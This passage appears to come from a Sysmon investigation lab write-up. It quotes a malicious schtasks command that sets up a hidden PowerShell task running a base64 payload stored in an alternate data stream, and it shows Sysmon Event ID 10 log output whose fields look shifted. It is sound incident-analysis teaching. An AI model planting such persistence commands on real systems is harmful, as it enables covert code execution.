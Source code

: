 ```
               ParentCommandLine: %22
```

What was the full command used to create the scheduled task in Investigation 3.2?
`"C:\WINDOWS\system32\schtasks.exe" /Create /F /SC DAILY /ST 09:00 /TN Updater /TR               "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX               ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String($(cmd /c ''more <c:\users\q\AppData:blah.txt'''))))\""`

```
PS C:\Users\THM-Analyst> Get-WinEvent -Path C:\Users\THM-Analyst\Desktop\Scenarios\Investigations\Investigation-3.2.evtx -FilterXPath '*/System/EventID=10 and */EventData/Data[@Name="SourceImage"]="C:\Windows\System32\lsass.exe"' | fl


TimeCreated  : 2/5/2018 7:08:53 AM
ProviderName : Microsoft-Windows-Sysmon
Id           : 10
Message      : Process accessed:
               RuleName: 2018-02-05 07:08:53.766
               UtcTime: {b231f4ab-a2ef-5a66-0000-0010ec930000}
               SourceProcessGUID: 756
               SourceProcessId: 6404
               SourceThreadId: 0
               SourceImage: {b231f4ab-0305-5a78-0000-00101b276402}
               TargetProcessGUID: 8992
               TargetProcessId: 0
               TargetImage: 0x1478
               GrantedAccess: 0xC
               CallTrace: %11

TimeCreated  : 2/5/2018 7:08:53 AM
ProviderName : Microsoft-Windows-Sysmon
Id           : 10
Message      : Process accessed:
               RuleName: 2018-02-05 07:08:53.766
               UtcTime: {b231f4ab-a2ef-5a66-0000-0010ec930000}
               SourceProcessGUID: 756
